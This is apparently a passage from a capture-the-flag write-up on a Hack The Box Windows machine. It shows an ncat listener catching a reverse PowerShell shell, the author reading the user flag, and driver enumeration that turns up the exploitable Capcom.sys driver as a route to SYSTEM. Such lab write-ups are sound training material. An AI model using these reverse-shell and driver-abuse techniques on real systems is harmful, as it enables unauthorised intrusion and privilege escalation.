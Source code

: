 Quickly there’s a hit on my webserver, and then a connection at a listening `nc`:

```

oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.72.
Ncat: Connection from 10.10.10.72:49226.
Windows PowerShell running as user decoder on FIGHTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
fighter\decoder

```

I can read `user.txt`:

```

PS C:\Users\decoder\desktop> type user.txt
bb6163c1************************

```

## Shell as SYSTEM

### Enumeration - Drivers

There’s a suspicious driver loaded on this box, and there are a few ways to identify it. `driverquery /v` will show all the drivers on the box, and if I filter out all the ones in `C:\Windows\System32\Drivers` (using `findstr`, which is Windows equivalent of `grep`), there’s only two left:

```

PS C:\programdata> driverquery /v | findstr /iv "system32\\drivers"

Module Name  Display Name           Description            Driver Type   Start Mode State      Status     Accept Stop Accept Pause Paged Pool(bytes) Code(bytes) BSS(bytes) Link Date              Path                                             Init(bytes)
============ ====================== ====================== ============= ========== ========== ========== =========== ============ ================= =========== ========== ====================== ================================================ ===========
Capcom       Capcom                 Capcom                 Kernel        Auto       Running    OK         TRUE        FALSE        0                 1.280       0          05/09/2016 08:43:33    \??\C:\Windows\drivers\Capcom.sys                384        
MpKsl0f8ba75 MpKsl0f8ba758          MpKsl0f8ba758          Kernel        Manual     Running    OK         TRUE        FALSE        16.384            12.288      0                                 \??\c:\ProgramData\Microsoft\Microsoft Antimalwa 4.096

```
